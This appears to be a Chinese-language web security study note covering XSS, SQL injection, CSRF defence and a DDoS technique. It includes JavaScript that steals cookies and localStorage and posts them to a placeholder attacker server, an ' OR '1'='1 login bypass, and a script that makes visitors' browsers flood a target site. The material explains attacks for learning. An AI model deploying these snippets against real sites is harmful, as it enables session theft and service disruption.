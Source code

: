 # Web安全機制

## XSS(Cross-site Scripting)

1.假設網站有一個留言板

![](<.gitbook/assets/螢幕快照 2017-02-02 下午2.02.41.png>)

2.但該網站沒有過濾script標籤，而是直接使用innerHTML讓使用者輸入後直接顯示

3.這時假設剛才的test.js 改為 你的網域下的一隻js程式碼，然後該程式碼內含有

```
var test1 = document.cookie;
function allStorage() {
    var values = [],
        keys = Object.keys(localStorage),
        i = keys.length;

    while ( i-- ) {
        values.push( localStorage.getItem(keys[i]) );
    }

    return values;
}
var test2 = allStorage(); //取得所有localstorage傳給變數test2

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage
```

最後把test1與test2用ajax傳給你自己的server，即可獲得每個瀏覽他網站的使用者cookie與localstorage

Ex:

```
$.post('https://我的站點/test',{cookie: test1,localStorage: test2})
```

## SQL Injection

```
var userName = req.body.username;
var passWord = req.body.password;

strSQL = "SELECT * FROM users WHERE (name = '" + userName + "') and (pw = '"+ passWord +"');"
```

POST時將資料寫入

```
userName = "1' OR '1'='1";
與
passWord = "1' OR '1'='1";
```

將導致原本的SQL字串被填為

```
strSQL = "SELECT * FROM users WHERE (name = '1' OR '1'='1') and (pw = '1' OR '1'='1');"
```

上述語句等同於

```
strSQL = "SELECT * FROM users;"
```

將會取出所有使用者

[https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A](https://zh.wikipedia.org/wiki/SQL%E8%B3%87%E6%96%99%E9%9A%B1%E7%A2%BC%E6%94%BB%E6%93%8A)

## CSRF(Cross-site request forgery)

偽造用戶請求像網站發出惡意請求

防範方式:

server 在render畫面時會給出 csrfhash，並隱藏在表單中，之後client端提交，此csrf會跟著送到server並且進行比對

```
<form method="POST" action="/upload?_csrf={{ csrfhash }}" enctype="multipart/form-data">
  title: <input name="title" />
  file: <input name="file" type="file" />
  <button type="submit">上傳</button>
</form>
```

## DDos(distributed denial-of-service attack)

中文為:分散式阻斷服務攻擊

假設我們寫如下程式

```
function imgflood() {  
  var TARGET = 'test.website.com'
  var URI = '/picture?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

之後瀏覽此網頁的使用者將會每0.01秒產生一個request到目標網站

所以不知情的使用者如果點選了我們的網站，他也會加入對目標網站攻擊的行列
